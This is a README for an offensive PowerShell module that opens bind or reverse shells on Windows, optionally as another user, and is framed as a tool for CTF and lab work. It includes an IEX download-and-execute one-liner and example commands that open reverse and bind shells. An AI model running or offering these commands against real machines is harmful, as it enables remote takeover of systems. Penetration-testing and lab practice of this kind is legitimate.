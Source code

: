 # PowerRemoteShell

A PowerShell module that can also function as a standalone script, enabling users to spawn either a bind or reverse shell. Additionally, it includes the capability to authenticate the shell session as a different Windows user.

⚠ This project is not intended for production use, as network traffic is transmitted in clear text. It was created for Capture The Flag (CTF) challenges and certification labs. In the future, I may integrate additional protocols and encryption methods. For now, this script serves as a simplified solution to challenges I have encountered in CTFs and labs. Use it at your own risk and only with a full understanding of its intended purpose.

## Quick Setup

```powershell
IEX (Get-Content .\PowerRemoteShell.psm1 -Raw)
```

Or

```powershell
IEX (New-Object Net.WebClient).DownloadString('<protocol>://<host>:<port>/<uri>/PowerRemoteShell.psm1')
```

Or Invoke-🧠

## Usage

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Address (*)        | String           | None       | For 'Reverse' mode, this specifies the remote machine to connect to (e.g., a Netcat listener). For 'Bind' mode, this defines the interface to bind to (e.g., 0.0.0.0 to listen on all interfaces). |
| Port (*)           | Integer (Word)   | None       | For 'Reverse' mode, this specifies the port on the remote machine to connect to. For 'Bind' mode, this defines the port to listen on. |
| Mode (*)           | Choice           | None       | Defines the type of remote shell: 'Reverse' (initiates a connection back to a listener) or 'Bind' (opens a port and waits for an incoming connection). |
| ShellKind          | Choice           | PowerShell | Specifies the shell application to capture and redirect to the network socket. Options include 'PowerShell', 'Cmd', or the default shell defined by the 'COMSPEC' environment variable. |
| Username           | String           | None       | An existing Microsoft Windows local user account.  |
| Password           | String           | None       | Password of specified user account. |
| Domain             | String           | None       | specify the domain of the user account under which the new process is to be started. |

`*` = Mandatory Options

### Examples

```powershell
# Listen on all interfaces (0.0.0.0) on port 2801 and spawn a command-line shell as the current user.
Invoke-RemoteShell -Address 0.0.0.0 -Port 2801 -Mode "bind" -ShellKind "cmd"

# Connect to the remote listener at 192.168.10.14:1403 and spawn a PowerShell shell as the current user.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "reverse"

# Listen on 192.168.10.14 (only) on port 1403 and spawn a PowerShell shell as the user 'darkcodersc'.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "bind" -Username "darkcodersc" -Password "mypassword"
```

![Example](images/example.png)

Demonstrate a bind shell at the top, running as the currently logged-in user, and a reverse shell at the bottom, connecting as the user 'dark'.
